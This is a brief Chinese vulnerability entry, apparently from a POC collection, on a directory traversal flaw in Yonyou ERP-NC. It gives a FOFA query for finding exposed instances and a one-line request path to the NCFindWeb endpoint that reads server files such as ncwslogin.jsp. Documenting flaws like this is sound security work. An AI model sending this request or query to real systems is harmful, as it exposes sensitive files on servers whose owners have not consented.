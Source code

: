 # 用友ERP-NC-目录遍历漏洞

## 漏洞描述

用友ERP-NC 存在目录遍历漏洞，攻击者可以通过目录遍历获取敏感文件信息

## 漏洞影响

> [!NOTE]
>
> 用友ERP-NC 

##  FOFA

> [!NOTE]
>
> app="用友-UFIDA-NC"

## 漏洞复现

POC为

```
/NCFindWeb?service=IPreAlertConfigService&filename=
```

![](用友ERP-NC-目录遍历漏洞.assets/1627363548489986.jpg)

查看 ncwslogin.jsp 文件

![](用友ERP-NC-目录遍历漏洞.assets/1627363548743364.jpg)

## Goby & POC

> [!NOTE]
>
> YongYou ERP-NC directory traversal

![](用友ERP-NC-目录遍历漏洞.assets/16273635490828218.jpg)